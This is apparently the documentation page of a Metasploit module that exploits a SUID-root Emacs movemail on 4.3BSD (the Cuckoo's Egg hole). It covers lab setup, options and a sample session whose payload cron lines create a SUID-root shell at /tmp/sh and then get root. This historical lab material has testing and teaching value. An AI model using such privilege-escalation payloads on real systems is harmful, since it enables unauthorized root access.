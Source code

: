 ## Intro

This module exploits a SUID installation of the Emacs `movemail` utility
to run a command as root by writing to 4.3BSD's `/usr/lib/crontab.local`.
The vulnerability is documented in Cliff Stoll's book *The Cuckoo's Egg*.

## Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

## Targets

```
Id  Name
--  ----
0   /usr/lib/crontab.local
```

## Options

**MOVEMAIL**

Set this to the absolute path to the SUID-root `movemail` executable.

**CMD**

If your payload is `cmd/unix/generic` (suggested default), set this to
the command you want to run as root. The provided default will create a
SUID-root shell at `/tmp/sh`.

## Usage

```
msf5 exploit(unix/local/emacs_movemail) > run

[*] Setting a sane $PATH: /bin:/usr/bin:/usr/ucb:/etc
[*] Current shell is /bin/sh
[*] $PATH is /bin:/usr/bin:/usr/ucb:/etc
[+] SUID-root [redacted] found
[*] Preparing crontab with payload
* * * * * root cp /bin/sh /tmp && chmod u+s /tmp/sh
* * * * * root rm -f /usr/lib/crontab.local
[*] Creating writable /usr/lib/crontab.local
[+] Writing crontab to /usr/lib/crontab.local
[!] Please wait at least one minute for effect
[*] Exploit completed, but no session was created.
msf5 exploit(unix/local/emacs_movemail) > sessions -1
[*] Starting interaction with 1...

ls -l /usr/lib/crontab.local /tmp/sh
/usr/lib/crontab.local not found
-rwsr-xr-x  1 root        23552 Nov 22 15:17 /tmp/sh
/tmp/sh -c whoami
root
```
